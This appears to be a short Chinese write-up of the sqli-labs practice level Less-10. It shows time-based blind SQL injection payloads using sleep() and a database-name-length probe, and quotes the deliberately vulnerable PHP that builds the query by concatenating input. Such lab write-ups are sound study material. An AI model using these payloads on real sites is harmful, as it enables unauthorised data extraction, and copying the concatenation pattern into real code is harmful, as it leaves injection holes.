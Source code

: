 # Less-10

## 0x00 注入

?id=1" and sleep(5)--+ 有延时

?id=1" and if(length(database())=8, sleep(5), 1)--+ 有延时

## 0x01 分析

参数被双引号包围了

```php
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else
        {

        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        //print_r(mysql_error());
        //echo "You have an error in your SQL syntax";
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
```
